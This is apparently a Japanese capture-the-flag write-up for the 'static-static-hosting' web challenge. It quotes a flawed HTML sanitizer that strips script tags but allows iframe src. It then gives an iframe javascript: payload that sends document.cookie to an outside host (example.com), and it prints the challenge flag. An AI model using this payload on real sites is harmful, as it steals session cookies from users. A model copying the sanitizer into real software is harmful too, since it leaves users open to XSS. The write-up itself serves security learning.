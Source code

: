 # static-static-hosting (220 solves/ 435 points)

> Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here
> Site: ...
> Note: The site is entirely static. Dirbuster will not be useful in solving it.

## solution

XSSを回避する方法が異なるだけで基本的なことはstatic-pastebinと同じ。

入力された文字列を表示する前に以下の処理が行われている

```javascript
function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

`src, width, height, alt, class`以外の属性は削除され、scriptタグも削除される。
しかし、iframeタグを使うことができるので`<iframe src="javascript:window.location.href='https://example.com/?'+document.cookie>"`を入力してやれば良い。
あとはstatic-pastebinと同じようにadminにURLを踏ませればフラグが手に入る

```
flag{wh0_n33d5_d0mpur1fy}
```
